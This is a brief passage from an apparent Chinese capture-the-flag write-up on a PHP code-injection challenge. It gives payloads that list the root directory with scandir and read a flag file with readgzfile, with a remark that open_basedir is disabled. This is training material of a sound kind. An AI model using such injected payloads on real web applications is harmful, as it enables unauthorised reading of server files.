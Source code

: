 ![image-20241129234701193](assets/image-20241129234701193.png)

可以看到一个flagc.txt文件

这题其实已经关闭了open_basedir，所以我们也可以用之前的方法读

```
var_export(scandir('/'));exit();
```

```
echo(implode(' ',scandir('/')));exit();
```

读文件的话上一题的uaf方法被ban了，这题用不了

所以我们还是用之前方法

```
c=readgzfile('/flagc.txt');exit();
```

![image-20241129235458680](assets/image-20241129235458680.png)
